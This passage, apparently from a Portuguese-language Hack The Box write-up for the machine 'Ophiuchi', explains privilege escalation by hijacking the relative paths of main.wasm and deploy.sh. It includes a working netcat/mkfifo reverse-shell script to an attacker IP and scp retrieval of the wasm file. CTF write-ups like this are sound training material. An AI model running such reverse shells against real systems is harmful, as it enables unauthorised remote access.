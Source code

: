 Como podemos ver, as variáveis são carregadas a partir do arquivo `main.wasm` e, se a variavel `f` em `info` for igual à **1**, o arquivo `deploy.sh` é executado.

Como ambos os arquivos (`main.wasm` e `deploy.sh`) executam a partir de um caminho relativo, são vulneráveis a **path hijacking**, o que realizaremos agora.

O passo inicial é criar os dois arquivos conforme faremos nos passos a seguir executando a partir de um diretório onde temos privilégio de gravação, neste caso em `/dev/shm`.

```bash
mkdir /dev/shm/zurc
cd /dev/shm/zurc
```

### `deploy.sh`

A crição deste arquivo será bem simples. Apenas criaremos um script no diretório recém-criado e executar o comando `id` para comprovar a execução.

```bash
#!/bin/bash

id
```

Uma vez que o procedimento funcione, alteraremos o script para o seguinte, que enviará um shell reverso para a máquina atacante

```bash
#!/bin/bash

rm /tmp/zurc;mkfifo /tmp/zurc;cat /tmp/zurc|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/zurc
```

### `main.wasm`

Este item é um pouco mais complexo, pois abrindo um dos arquivos encontrados em um editor, notamos que se trata de algo compilado e não um arquivo em texto plano.

Pesquisando um pouco em como modificar um arquivo wasm, encontrei no site Mozilla developers [como converter um WebAssembly Text para WASM](https://developer.mozilla.org/en-US/docs/WebAssembly/Text_format_to_wasm), que faz referência ao repositório [WebAssembly/wabt: The WebAssembly Binary Toolkit no GitHub](https://github.com/webassembly/wabt).

Os seguintes passos foram realizados para inspecionar e modificar o arquivo `main.wasm`:

- Localizado o arquivo `main.wasm` na máquina e copiado o principal para a máquina atacante

  ```bash
  # Ophiuchi
  admin@ophiuchi:~$ find / -type f 2> /dev/null | grep main.wasm
  /opt/wasm-functions/main.wasm
  /opt/wasm-functions/backup/main.wasm
  ```

  ```bash
  # Attacker Machine
  $ cd ./loot
  $ scp admin@10.10.10.227:/opt/wasm-functions/main.wasm .
  ```
